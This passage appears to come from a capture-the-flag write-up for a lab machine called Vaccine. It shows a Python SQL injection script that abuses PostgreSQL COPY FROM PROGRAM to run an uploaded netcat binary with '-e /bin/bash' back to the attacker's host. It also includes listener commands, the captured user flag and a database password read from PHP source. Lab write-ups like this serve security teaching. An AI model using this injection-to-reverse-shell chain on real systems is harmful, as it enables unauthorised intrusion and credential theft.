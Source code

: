```python

payload = "{}';COPY cmd_{} FROM PROGRAM 'chmod 777 /tmp/{}/nc'; -- -".format(
  target, suffix, suffix)
r = s.get(payload)

payload = "{}';COPY cmd_{} FROM PROGRAM '/tmp/{}/nc -e /bin/bash {} {}'; -- -".format(
  target, suffix, suffix, clientip, clientport)
r = s.get(payload)
```

First copy `nc` and make it available via a python web server:

~~~
$ cp /usr/bin/nc /data/tmp/
$ sudo python3 -m http.server 80
~~~

Start a listener on the port you specified in the script:

~~~
$ rlwrap nc -nlvp 4444
~~~

Now, start the script:

~~~
$ python3 sql2shell.py
~~~

You should get a reverse shell.

## User flag

Now in your reverse shell:

~~~
postgres@vaccine:/var/lib/postgresql/11/main$ find / -type f -name user.txt 2>/dev/null
/var/lib/postgresql/user.txt
postgres@vaccine:/var/lib/postgresql/11/main$ cat /var/lib/postgresql/user.txt
<ostgresql/11/main$ cat /var/lib/postgresql/user.txt
139d3e5c3db18073d250ce0dccc43997
~~~

# Privilege Escalation

Let's upgrade to a tty shell and continue enumeration.

~~~
SHELL=/bin/bash script -q /dev/null
postgres@vaccine:/var/lib/postgresql/11/main$ 
~~~

Looking at the source code of dashboard.php in /var/www/html reveals the postgres password to be: P@s5w0rd!.

```php
postgres@vaccine:/var/www/html$ grep -C1 pg_connect /var/www/html/dashboard.php 
  try {
    $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
  }
```

